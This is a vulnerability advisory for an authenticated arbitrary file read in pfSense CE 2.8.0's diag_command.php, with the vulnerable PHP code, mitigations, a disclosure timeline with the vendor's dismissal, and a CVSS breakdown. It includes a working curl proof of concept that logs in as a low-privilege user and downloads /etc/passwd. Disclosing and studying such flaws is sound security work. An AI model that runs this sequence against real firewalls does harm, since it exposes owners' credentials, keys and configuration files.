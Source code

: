 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Interface

#### CVE ID: *Pending*

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE: CWE-552 (Files or Directories Accessible to External Parties)

#### CVSS Base Score: 6.5 (Medium)

#### Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

This occurs even when a user only has the `WebCfg - Diagnostics: Command` permission assigned.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> I appreciate the built-in security warning related to assigning the `WebCfg - Diagnostics: Command` privilege. However, this disclaimer does not constitute as proper access control.
>
> The existence of a warning does not justify a design that equates a single permission with unrestricted system-level file access.

**Assign group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept authenticates with a user account `dev` that is only assigned the `WebCfg - Diagnostics: Command` permission.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pfsense" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files listed in a whitelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded, dismissing the issue as intended behavior
* **2025-06-27:** Researcher responded with technical rebuttal, but vendor reiterated dismissal
* **2025-06-27:** Researcher initiated public disclosure due to vendor dismissal

![image](https://github.com/user-attachments/assets/8317dd1d-95c7-4000-a942-f9435d40cfa8)

> While the vendor asserts that access to this page equates to root, this conflates web-level permissions with unrestricted backend access.
>
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

---

## Estimated CVSS Breakdown

| Metric                      | Value         | Justification                                          |
| --------------------------- | ------------- | ------------------------------------------------------ |
| **AV: Attack Vector**       | N (Network)   | Exploitable via the pfSense web interface over HTTPS   |
| **AC: Attack Complexity**   | L (Low)       | Straightforward POST request with valid CSRF token     |
| **PR: Privileges Required** | L (Low)       | Requires only `WebCfg - Diagnostics: Command` permission      |
| **UI: User Interaction**    | N (None)      | No additional interaction needed                       |
| **S: Scope**                | U (Unchanged) | Same component boundary (web app reads system file)    |
| **C: Confidentiality**      | H (High)      | Arbitrary file read, including credentials and configs |
| **I: Integrity**            | N (None)      | No tampering                                           |
| **A: Availability**         | N (None)      | No denial-of-service                                   |

**Base Score: 6.5 (Medium)**
